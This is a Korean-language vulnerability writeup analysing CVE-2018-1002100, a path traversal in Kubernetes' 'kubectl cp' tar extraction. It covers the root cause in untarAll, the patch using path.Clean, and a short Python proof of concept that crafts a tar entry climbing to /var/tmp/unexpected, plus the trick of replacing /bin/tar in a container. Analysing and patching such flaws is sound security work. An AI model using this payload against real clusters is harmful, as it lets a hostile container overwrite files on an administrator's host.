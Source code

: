 ```yaml
---
layout: post
title: "CVE-2018-1002100"
date: 2021-12-28
categories: Kubernetes
tags: [kubernetes, cve]
---
```


# 개요

|     취약한 버전     |           취약점 종류           |                                 취약점 설명                                  |
| :-----------------: | :-----------------------------: | :--------------------------------------------------------------------------: |
| kubernetes: ~v1.9.5 | overwrite arbitrary local files | “kubectl cp” 명령어를 통해, 컨테이너에서 노드의 파일을 덮어쓸 수 있는 취약점 |

# 배경지식

아래는 pkg/kubectl/cmd/cp.go 파일을 볼 때, 알아야 하는 함수들이다. 

path.join 함수는 입력된 경로들을 순차적으로 탐색했을 때, 나올 수 있는 하나의 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	fmt.Println(path.Join("a", "/b", "/c"))
	fmt.Println(path.Join("a", "/b/c"))
	fmt.Println(path.Join("a/b", "/c"))

	fmt.Println(path.Join("a/b", "../../../xyz"))

	fmt.Println(path.Join("", ""))
	fmt.Println(path.Join("a", ""))
	fmt.Println(path.Join("", "a"))
}
```

위 코드의 실행 결과는 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC4.png?raw=true)

path.clean 함수는 입력된 경로와 동등한 가장 짧은 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	paths := []string{
		"a/c",
		"a//c",
		"a/c/.",
		"a/c/b/..",
		"/../a/c",
		"/../a/b/../././/c",
		"",
	}
	for _, p := range paths {
		fmt.Printf("Clean(%q) = %q\n", p, path.Clean(p))
	}
}
```

위 코드의 실행 결과는 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC3.png?raw=true)

# Root Cause 분석

“kubectl cp” 명령어를 수행하면, tar 아카이브 파일을 컨테이너와 호스트가 주고 받는데, 이때 호스트는 kubectl 내에 구성된 cp.go 파일에서 tar 파일을 처리하는 루틴을 구현해 놓았고, 컨테이너에서는 /bin/tar 바이너리를 사용해서 tar 아카이빙을 수행한다.

이때, 호스트에서 전송받은 tar 아카이브 파일이 “../../../../../tmp/foo”와 같이, 상위 디렉토리로 거슬러 올라가도록 만들어 놓으면, 파일을 해제할 때, 이를 그대로 올라가 파일을 덮어쓴다. 즉, path traversal이 일어나는 것이고, /bin/tar 바이너리를 공격자가 임의로 수정하면, “kubectl cp” 명령이 해당 컨테이너를 대상으로 수행될 때, 항상 원하는 결과를 반환할 수 있다. 따라서, 위에서 재연할 때는, 미리 구현한 특정 tar 아카이브를 읽도록 /bin/tar 실행 파일을 수정하였다.

```
func untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, header.Name[len(prefix):])
		...
}
```

header.Name[len(prefix):]은 header.Name에서 prefix를 제외하고난 파일명이다.

위에서도 봤듯이 path.Join은 단순히 인자로 들어간 경로들을 차례로 접근했을 때, 하나의 단순화된 경로를 반환하는 함수이다. 즉, path traversal로 루트 디렉토리로 파고들어가는 것이 가능하다.

`kubectl cp mongodb:/something ./123`

- prefix: something
- destFile: ./123
- header.Name: 아카이브에 있는 파일/디렉토리 명
- outFileName: destFile과 header.Name에서 prefix를 제외하여 path.Join한 결과

→ 원래라면, prefix를 빼고, destFile을 상위 디렉토리로 하여 파일을 복사해오는 것이지만, path traversal이 일어나기 때문에, 상위 디렉토리로 올라가게 된다.

# Exploit 재연

```
#!/usr/bin/python3

import tarfile
import tempfile
import os
import base64

with tarfile.TarFile.open("sample.tar", "w") as tar:
  with tempfile.NamedTemporaryFile() as text:
    text.write(b"Hello World\n")
    text.flush()

    tar.add(text.name,
      arcname="../../../../../../../var/tmp/unexpected")

  tar.close()
```

위 파일은 sample.tar를 만드는 코드로, 위를 수행하면, sample.tar 아카이브가 만들어지는데, 이를 확인해보면 다음과 같다. 파일명을 자세히 보면, 상위 디렉토리로 계속 거슬러 올라가서 /var/tmp/unexpected 파일을 압축한 것임을 알 수 있다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC5.png?raw=true)

그리고, 컨테이너 내에서의 tar 파일을 지우고, 이를 쉘 스크립트 파일로 “cat sample.tar”을 하도록 만든다면, 쿠버네티스의 관리자가 공격자의 컨테이너를 대상으로 “kubectl cp” 명령어를 쳤을 때, 다음과 같이 공격에 성공할 수 있다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC6.png?raw=true)

# 패치 내용

```
// clean prevents path traversals by stripping them out.
// This is adapted from https://golang.org/src/net/http/fs.go#L74
func clean(fileName string) string {
	return path.Clean(string(os.PathSeparator) + fileName)
}

unc untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, clean(header.Name[len(prefix):]))
		baseName := path.Dir(outFileName)
		...
}
```

outFileName, 즉, 파일을 호스트에 덮어 쓸 때, path.Clean을 수행하였고, untarAll에서 해당 함수 한 번 호출하도록 업데이트한 이후, 1.9.6에서 1.13.4까지 이 패치가 지속되었다. 아래는 path.clean 함수의 수행 결과를 보여주는데, 이러한 조치가 path traversal을 막는 적절한 조치였다는 것을 확인할 수 있다.

```
package main

import (
        "fmt"
        "os"
        "path"
)

func clean(fileName string) string {
        return path.Clean(string(os.PathSeparator) + fileName)
}

func main() {
        fmt.Println(clean("../../../../../../../var/tmp/unexpected"))
```



![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC7.png?raw=true)

# 참고자료

National Vulnerability Database, “CVE-2018-1002100 Detail”, [link](https://nvd.nist.gov/vuln/detail/CVE-2018-1002100)

Michael Hanselmann, “OpenShift Source-to-Image build privilege escalation to root”, [link](https://hansmi.ch/articles/2018-04-openshift-s2i-security)